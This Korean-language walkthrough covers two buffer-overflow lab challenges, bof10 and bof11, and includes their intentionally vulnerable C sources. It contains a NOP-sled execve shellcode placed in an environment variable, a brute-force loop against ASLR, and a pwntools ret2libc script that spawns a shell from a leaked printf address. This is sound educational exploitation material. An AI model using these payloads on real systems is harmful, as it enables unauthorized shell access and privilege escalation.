

# bof10

<details>
<summary>bof10.c</summary>

```c
// AFTER => bof9.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR ON
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln(char * arg) {
    char buf[BUF_SIZE];

    if (setreuid(1011, 1011)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1011, 1011)) {
        perror("setgid");
        exit(1);
    }
    strcpy(buf, arg);
    printf("Hello %s[%p]!\n", buf, buf);
    printf("(env:SHELLCODE -> %p)\n", getenv("SHELLCODE"));
}

int main(int argc, char *argv[]) {
    vuln(argv[1]);
    return 0;
}
```
</details>

다음 코드를 보면 함수 인자를 받아서 vuln함수에 넘기는 것을 볼 수 있다. 그리고 나머지는 bof8과 같다. 그럼 bof8처럼 환경변수를 설정하고 환경변수 주소를 ret에 덮어씌우면 되는지 확인을 해봤다.


실행시킬 때마다 주소값이 바뀌는 것을 확인할 수 있다. 따라서 다른 방법을 생각해보아야 한다.

주소값이 계속 바뀐다면 특정을 할 수 없기 때문에 nop을 이용해보자. ret에 nop이 존재하는 주소를 보낸다면 결국 nop을 타고 환경변수의 주소에 도달하게 되어 환경변수를 실행시킬 수 있을 것 같다.


다음과 같이 환경변수를 설정할 때 nop을 무진장 많이 넣어주자. 그러면 스택 구조상 환경변수가 저장되는 부분에는 수많은 nop이 존재한다. 그렇기 때문에 ret이 그 사이를 가리키게 된다면 SHELLCODE가 실행될 수 있다.

```
export SHELLCODE=`python -c "print '0x90' * 130000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x
50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

```

vuln을 실행 했을 때 esp(ret의 주소)


버퍼오버플로우에 취약한 strcpy를 실행할 때 disassemble. 32비트는 인자를 스택에다가 push하여 전달하고 call할때 pop을 하기때문에 첫번째 인자인 buf의 주소는 마지막에 push된 ebp - 0x10에 저장되어 있다.


ebp - 0x10 값과 두 ret과 buf 주소값의 차이


이를 통해서 다음과 같은 페이로드를 작성해보자. 마지막의 주소값은 처음 실행시켜보았을 때 나온 환경변수 SHELLCODE의 주소값이다.
```
./bof10 `python -c "print 'x' * 20 + '\x51\x88\xa9\xff'"`
```
당연히 안될 것이다. ~~만약 운이 엄청나게 좋았더라면 됬을것이다.~~

대충 메모리의 구조이다.(너무 못그려서 그냥 보고만 지나가자) 

[여기(day9)](https://github.com/ccss17/security-tutorial/tree/master/09-Exploit4)에 환경변수에 nop을 많이 넣어 임의의 주소값을 ret에 주게 될때 ret이 nop이 있는 곳을 가르킬 확률이 너무 잘 나와있다.


여튼 너무 낮은 확률이지만 어느정도 가능성이 있기때문에 무한 반복을 하다보면 언젠가는 얻어 걸릴 것이다.

```
while true; do ./bof10 `python -c "print 'x' * 20 + '\x51\x88\xa9\xff'"`; done
```


# bof11

<details>
<summary>bof11</summary>

```c
// AFTER => bof10.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR ON
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

void vuln(void) {
    char buf[BUF_SIZE] = {'\0'};
    memset(buf, 0, sizeof(buf));
    printf("printf() address : %p\n", printf);

    if (setreuid(1012, 1012)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1012, 1012)) {
        perror("setgid");
        exit(1);
    }
    unsigned short mistake = -128;
    fgets(buf, mistake, stdin);
    printf("Hello %s\n", buf);
}

int main(void) {
    vuln();
    return 0;
}
```
</details>

이 코드는 형식은 bof9와 유사하다. 하지만 다른점은 rslr이 걸려있다는 것이다. 다음코드를 통해서 확인할 수 있다.(그냥 bof11을 계속 실행 하면 주소값이 바뀌는 것을 확인할 수 있다.)

```
cat /proc/sys/kernel/randomize_va_space
```

bof9와 같이 스택에 쉘 실행권한이 없기 때문에 rtl을 사용하고 싶지만
주소값이 바뀌는 상황에서 그 방법을 그대로 사용하기에는 어려움이 있다. 하지만 vuln 함수에서 보면 printf함수의 주소값이 유출되는 것을 확인 할 수있다. 이것을 통해서 rtl을 적용해 보자.

우선 핵심은 bof10을 풀어보았을 때 buf부터 ret까지의 거리는 고정적으로 20이라는 것을 알 수 있었다. 이 말은 즉 스택에서 상대적인 거리는 변하지 않는 다는 것이다.

그러므로 우리는 printf의 주소를 vuln함수 내에서 알아낼 수 있기때문에 printf함수의 주소값에 두 주소값의 상대적인 차이를 알아내어 더해준다면 실질적으로 우리가 원하는 주소값을 찾을 수 있을 것이다. 

따라서 bo9에서 했던 방식으로 하기 위해서 우리가 필요한 함수들의 주소값을 찾아보자

system와 printf의 상대 거리


pop rdi ; ret과 printf의 상대 거리


/bin/sh과 printf의 상대거리


buf부터 ret까지 거리





상대거리를 알아냈다하더라도 실행할때마다 printf의 주소값이 바뀌니 이 주소값이 바뀌지 않도록 붙들고 있어야지만 원하는 값을 buf에 입력할 수 있다.

따라서 다음과 같은 poc코드를 작성할 수 있다.

```py
from pwn import *

p = process('./bof11')

#printf함수의 주소값을 printf에 저장한다.
p.recvuntil('printf() address : ')
printf = int(p.recvuntil('\n'), 16) #16 진수를 숫자로 바꿔준다.

#알아낸 상대주소를 통해 실질적인 주소값을 알아낸다.
sys = printf + (-66672)
binsh = printf + (1275223)
poprdi = printf + (-214782)
bufToRet = 18

#이를 통해 순서대로 페이로드를 만든다.
payload = b"x" * bufToRet
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(sys)
p.send(payload)

p.interactive()
```